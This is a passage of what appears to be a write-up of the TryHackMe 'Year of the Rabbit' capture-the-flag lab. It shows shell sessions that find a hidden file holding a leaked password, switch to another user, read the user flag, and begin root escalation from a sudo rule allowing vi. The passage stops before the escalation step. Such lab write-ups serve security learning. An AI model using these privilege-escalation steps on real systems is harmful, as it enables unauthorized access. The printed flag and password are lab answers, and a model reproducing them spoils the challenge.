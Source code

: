   ```
  eli@year-of-the-rabbit:/home/gwendoline$ find / -name s3cr3t 2>/dev/null
  /usr/games/s3cr3t
  
  eli@year-of-the-rabbit:/home/gwendoline$ ls -al /usr/games/s3cr3t/
  total 12
  drwxr-xr-x 2 root root 4096 Jan 23  2020 .
  drwxr-xr-x 3 root root 4096 Jan 23  2020 ..
  -rw-r--r-- 1 root root  138 Jan 23  2020 .th1s_m3ss4ag3_15_f0r_gw3nd0l1n3_0nly!
  
  eli@year-of-the-rabbit:/home/gwendoline$ cat /usr/games/s3cr3t/.th1s_m3ss4ag3_15_f0r_gw3nd0l1n3_0nly!
  Your password is awful, Gwendoline. 
  It should be at least 60 characters long! Not just MniVCQVhQHUNI
  Honestly!
  
  Yours sincerely
     -Root
  
  eli@year-of-the-rabbit:/home/gwendoline$ su gwendoline
  Password:
   
  gwendoline@year-of-the-rabbit:~$ whoami
  gwendoline
  
  gwendoline@year-of-the-rabbit:~$ id
  uid=1001(gwendoline) gid=1001(gwendoline) groups=1001(gwendoline)
  
  gwendoline@year-of-the-rabbit:~$ ls
  user.txt
  
  gwendoline@year-of-the-rabbit:~$ cat user.txt 
  THM{1107174691af9ff3681d2b5bdb5740b1589bae53}
  ```

- First flag obtained, escalation here I come!

---

## 👑 Root Privilege Escalation

- Honestly, this one wasn't that hard I guess since `sudo -l` did 98% of the job.

  ```
  gwendoline@year-of-the-rabbit:~$ sudo -l
  Matching Defaults entries for gwendoline on year-of-the-rabbit:
      env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin
  
  User gwendoline may run the following commands on year-of-the-rabbit:
      (ALL, !root) NOPASSWD: /usr/bin/vi /home/gwendoline/user.txt
  ```
  